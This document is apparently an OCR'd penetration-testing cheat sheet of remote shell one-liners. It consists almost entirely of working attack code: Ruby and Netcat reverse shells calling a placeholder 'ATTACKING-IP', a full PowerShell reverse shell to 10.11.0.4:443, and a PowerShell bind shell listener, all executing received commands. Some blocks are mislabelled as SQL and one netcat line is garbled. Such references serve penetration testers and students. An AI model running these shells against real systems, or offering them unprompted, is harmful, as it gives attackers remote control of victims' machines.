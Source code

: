 ## **Spawn Ruby Shell**
 
```sql
exec "/bin/sh"
```

```sql
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh-i<&%d >&%d 2>&%d",f,f,f)'
```


## **Netcat**

```sql
nc -e /bin/sh ATTACKING-IP 80
```

```sql
/bin/sh | nc ATTACKING-IP 80
```

```sql
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## **PowerShell**
### Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();

```
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
 ```
 ### Bind Shell
 ```powershell
 powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
 ```
	